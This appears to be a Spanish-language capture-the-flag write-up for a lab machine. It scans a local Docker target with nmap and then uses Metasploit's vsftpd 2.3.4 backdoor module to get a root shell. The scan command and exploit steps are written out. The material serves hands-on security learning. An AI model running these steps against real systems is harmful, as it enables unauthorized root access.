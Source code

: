# firsthacking

* Máquina **atacante** -> 172.17.0.1
* Máquina **objetivo** -> 172.17.0.2 | Linux :penguin:

### Escaneo de puertos

Realizamos un escaneo de puertos con *nmap* para ver puertos abiertos de la máquina **objetivo**:
```shell
nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 172.17.0.2
```
![escaneo](/Capturas/2024-10-23_22-03.png)

Observamos que el servicio **ftp** que corre por el puerto **21** posee una versión con una vulnerabilidad conocida.

### Explotación

Vamos a *metasploit* y buscamos la vulnerabilidad por la versión `search vsftpd 2.3.4`:

![busqueda](/Capturas/2024-10-23_22-19.png)

La seleccionamos (`use`) y vemos los parámetros que tenemos que completar (`show options`):

![opciones](/Capturas/2024-10-23_22-21.png)

Completamos el host remoto al que nos queremos conectar, seleccionamos el payload automático por defecto (cmd/unix/interact) y ejecutamos el **exploit**:

* set RHOSTS 172.17.0.2
* use 0
* exploit

Nos abre una sesión y obtenemos una shell ejecutando el comando `shell`:

![shell](/Capturas/2024-10-23_22-29.png)

Si ejecutamos el comando `whoami`, vemos que somos **root** :triangular_flag_on_post:

![whoami](/Capturas/2024-10-23_22-31.png)